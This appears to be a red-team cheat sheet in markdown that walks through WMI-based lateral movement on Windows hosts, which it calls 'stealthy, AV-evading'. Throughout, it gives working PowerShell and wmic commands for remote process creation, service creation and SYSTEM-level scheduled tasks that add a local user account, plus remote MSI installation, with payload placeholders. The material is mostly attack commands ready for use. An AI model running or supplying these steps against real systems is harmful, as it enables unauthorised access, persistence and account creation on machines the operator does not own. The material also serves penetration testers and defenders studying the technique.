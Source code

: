 # Windows Management Instrumentation (WMI)

## Requirements: Valid credentials, local admin access, DCOM access

## Use case: You need stealthy, AV-evading lateral movement and WinRM is not an option

## 1: Connect to WMI through Powershell

#### 1) 

    $username= 'Administrator';
#### 2) 

    $password= 'PASSWORD';
#### 3) 

    $securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;
#### 4) 

    $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

## 2: Establish WMI Session

### Protocols:

### 1) DCOM: RPC over IP. Ports: 135/TCP, 49152-65535/TCP

### 2) Wsman: WinRM. Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS) 

## 3: WMI Through Powershell

#### 1) 

    $Opt = New-CimSessionOption -Protocol DCOM

#### 2) 

    $Session = New-CimSession -ComputerName TARGET -Credential $credential -sessionOption $Opt -ErrorAction Stop

## 4: Remote Process Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5986/TCP, 5986/TCP

### Group Memberships: Administrators

#### 1) 

    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value jimmywsahere";

####  2) 

    Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}

### Legacy Systems

#### 

    wmic.exe /user:Administrator /password:PASSWORD /node:TARGET process call create "cmd.exe /c calc.exe"

## 5: Remote Service Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP (DCERPC) 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 1) 

    Invoke-CimMethod -CimSession $session -ClassName Win32Service -MethodName Create -Arguments @{Name = "service"; DisplayName = "service"; PathName = "net user USER PASSWORD /ADD" (INSERT YOUR PAYLOAD HERE) ServiceType = [byte]::parse("16"); (Win32OwnProcess: Start service in a new process) StartMode = "Manual"}

## 6: Get handle on service and start

#### 

    $service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'service'"

#### 

    Invoke-CimMethod -InputObject $service -MethodName StartService

#### 

    Invoke-CimMethod -InputObject $service -MethodName StopService

#### 

    Invoke-CimMethod -InputObject $service -MethodName Delete

## 7: Remote scheduled tasks creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

## *Payload must be split in Command and Args*

#### 

    $Command = "cmd.exe"

#### 

    $Args = "/c net user USER PASSWORD /add"

#### 

    $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args

#### 

    Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" - TaskName "task"

#### 

    Start-ScheduledTask -CimSession $Session -TaskName "task"

#### 

    Unregister-ScheduledTask -CimSession $Session -TaskName "task"

## 8: MSI Packages (WMI)

### Ports:  135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

### Legacy Systems

#### 

    wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\windows\myinstaller.msi
